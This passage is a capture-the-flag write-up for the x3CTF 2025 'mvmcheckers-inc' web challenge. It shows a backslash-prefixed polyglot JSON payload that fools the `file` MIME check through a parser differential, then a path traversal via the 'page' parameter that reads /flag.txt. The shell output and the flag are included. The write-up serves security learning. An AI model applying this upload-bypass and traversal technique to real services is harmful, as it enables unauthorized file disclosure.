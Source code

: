 If it parsed successfully, `file` will determine that this file is a JSON file and return JSON MIME type and its summary. With that said, in order to make it not a JSON file, we need to **make `file` unable to parse it**.

But wait, if `file` unable to parse the JSON file, doesn't mean that `rebuild/index.php` also can't parse it?? Well, there is 1 differential between `file` and `rebuild/index.php` parsing:

```php
[...]
$pageName = $_GET["page"];
[...]
$pageString = file_get_contents("./$pageName");
$sanitized = str_replace("\\", "", $pageString);
$pageObject = json_decode($sanitized, flags: JSON_INVALID_UTF8_IGNORE);
```

Previously, I briefly mentioned that the file's **backslash character (`\`) will be replaced by an empty string**. With this, we can leverage this parser differential to bypass the `file`'s MIME type check!

## Exploitation

To do so, we need to make the JSON file's syntax invalid using a `\` character like this:

```json
\{"Aidsc":"bar", "sections": [{"type": "link", "tag": "i", "value": "/flag.txt"}]}
```

```shell
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|19:47:26(HKT)]
└> echo -n '\{"Aidsc":"bar", "sections": [{"type": "link", "tag": "i", "value": "/flag.txt"}]}' > image_file
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|19:47:31(HKT)]
└> file -b image_file
Apple QuickTime image (fast start)
```

Nice! We can now make it as a valid JSON file on the `rebuild/index.php` side, and as an image file on the `file` command side.

Armed with above information, we can get the flag via:
1. Upload the above polyglot JSON file
2. Using path traversal vulnerability at `rebuild/index.php` to read the included flag file via the `page` GET parameter

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|20:01:53(HKT)]
└> python3 solve.py
[*] Uploading polyglot JSON file...
[*] Retrieving the flag...
[+] Flag: MVM{c7f5_4r3_4_m461c_pl4c3_4r3n7_7h3y}
```

- **Flag: `MVM{c7f5_4r3_4_m461c_pl4c3_4r3n7_7h3y}`**

## Conclusion

What we've learned:

1. Path traversal and file upload MIME type bypass via parser differential